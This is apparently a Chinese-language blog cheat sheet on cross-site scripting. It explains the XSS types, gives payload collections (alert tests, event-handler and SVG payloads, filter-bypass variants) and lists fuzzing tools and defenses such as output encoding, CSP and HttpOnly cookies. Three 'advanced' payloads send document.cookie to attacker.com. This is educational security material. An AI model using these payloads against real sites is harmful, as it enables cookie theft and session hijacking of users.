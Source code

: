 ```yaml
---
title: "XSS注入备忘录"
description: "XSS注入备忘录"
pubDate: 2025-05-08
updatedDate(optional): 2025-05-08
tags(optional): ["安全", "Xss"]
---
```

# XSS注入备忘录

## 什么是XSS？

XSS（跨站脚本攻击）是一种常见的web安全漏洞，攻击者通过在网页中注入恶意脚本，使之在用户的浏览器上运行。这些脚本能够读取cookie、session tokens、或其他敏感信息。

## XSS的类型

1. **反射型XSS**
   - 非持久化，需要用户点击特制的链接
   - payload通常在URL参数中

2. **存储型XSS**
   - 恶意代码存储在目标服务器中
   - 受害者浏览页面时触发
   
3. **DOM型XSS**
   - 发生在客户端JavaScript执行过程中
   - 不涉及服务器端代码

## 常用XSS Payload合集

### 基础测试
```javascript
<script>alert('XSS')</script>
<script>alert(document.cookie)</script>
<script>alert(document.domain)</script>
```

### 图片标签XSS
```javascript
<img src="javascript:alert('XSS')">
<img src=x onerror="alert('XSS')">
<img src=x oneonerrorrror=alert(1)>
```

### 事件处理器
```javascript
<body onload="alert('XSS')">
<input type="text" onmouseover="alert('XSS')">
<div onmouseover="alert('XSS')">
```

### 绕过过滤器
```javascript
<scr<script>ipt>alert('XSS')</scr</script>ipt>
<script>al\u0065rt('XSS')</script>
<img src=x onerror="&#97;lert('XSS')">
```

### SVG XSS
```javascript
<svg/onload=alert('XSS')>
<svg><script>alert('XSS')</script></svg>
```

### 高级Payload
```javascript
<script>fetch('http://attacker.com/'+document.cookie)</script>
<script>new Image().src='http://attacker.com/'+document.cookie</script>
<script>window.location='http://attacker.com?cookie='+document.cookie</script>
```

## 常用XSS Fuzzing工具

### 1. XSStrike
- 功能：自动化XSS检测和利用
- 特点：
  - 支持DOM XSS检测
  - 智能payload生成
  - WAF绕过技术
- 安装：`pip install xsstrike`

### 2. XSS Hunter
- 功能：高级XSS漏洞检测平台
- 特点：
  - 自动收集截图
  - 获取DOM快照
  - 支持盲XSS检测

### 3. Burp Suite - Active Scanner
- 功能：专业的Web应用安全测试
- 特点：
  - 自动化扫描
  - 详细报告生成
  - 自定义payload支持

### 4. BeEF (Browser Exploitation Framework)
- 功能：浏览器漏洞利用框架
- 特点：
  - 实时hook管理
  - 社会工程学模块
  - 详细的命令控制界面

## XSS防御措施

1. **输入验证**
   - 白名单验证
   - 特殊字符过滤

2. **输出编码**
   - HTML编码
   - JavaScript编码
   - URL编码

3. **安全Headers**
   - Content-Security-Policy (CSP)
   - X-XSS-Protection
   - X-Content-Type-Options

4. **Cookie安全**
   - HttpOnly标记
   - Secure标记
   - SameSite属性

## 实用工具和资源

1. **在线XSS测试平台**
   - XSS Game (Google)
   - PortSwigger Web Security Academy
   - OWASP Juice Shop

2. **XSS Payload数据库**
   - PayloadsAllTheThings
   - XSS Filter Evasion Cheat Sheet
   - HTML5 Security Cheatsheet

## 总结

XSS漏洞虽然是一个古老的安全问题，但至今仍然广泛存在于Web应用中。了解各种XSS攻击方式和防御措施对于开发安全的Web应用至关重要。定期更新安全知识，使用现代的安全框架和最佳实践，可以有效降低XSS风险。 